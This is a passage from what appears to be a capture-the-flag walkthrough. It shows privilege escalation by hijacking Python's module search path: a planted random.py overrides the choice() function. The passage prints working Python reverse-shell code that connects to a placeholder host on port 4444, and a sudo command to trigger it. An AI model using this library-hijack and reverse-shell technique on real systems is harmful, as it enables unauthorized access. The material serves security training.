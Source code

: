 Then Python will use the libraries found in the **'/usr/lib/python3.6'** directory before any of the other directories.

<br>

In our case, there is something very interesting about our PYTHONPATH:

<img style="float: left;" src="screenshots/screenshot15.png">

The **''** actually signifies the current directory that the python script is in. Since the **''** entry is the highest on the list, it holds the most priority and Python will actually look at the current directory to check for any imported library files.

With that in mind, we can create our own **random.py** file in the same directory as **walrus_and_the_carpenter.py**, which will open up a reverse shell instead of doing what the random library normally does. We'll use the reverse shell from: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

<br>

We create **random.py** with a function called **'choice'**, as this function was used in **walrus_and_the_carpenter.py**.

```python
import socket,os,pty

def choice(a):
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("YOUR_IP_HERE",4444))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    pty.spawn("/bin/sh")
```

Next, we set up our netcat listener.

Finally, we run **walrus_and_the_carpenter.py** with `sudo -u`.

```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

<img style="float: left;" src="screenshots/screenshot16.png">

With that, we have gained access into rabbit's account!
